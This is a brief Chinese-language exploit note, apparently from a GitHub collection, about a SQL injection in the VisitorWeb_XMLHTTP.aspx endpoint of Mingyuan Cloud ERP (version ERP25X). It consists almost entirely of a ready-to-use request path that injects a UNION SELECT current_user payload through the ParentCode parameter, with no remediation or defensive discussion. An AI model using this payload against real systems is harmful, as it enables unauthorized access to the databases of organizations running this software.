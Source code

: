# 明源云 erp VisitorWeb_xmlHTTP.aspx sql注入

    明源采招系统-系统版本"ERP25X"

```
/CgZtbWeb/VisitorWeb/VisitorWeb_XMLHTTP.aspx?ywtype=GetParentProjectName&ParentCode=1'+union+select+current_user-- 
```
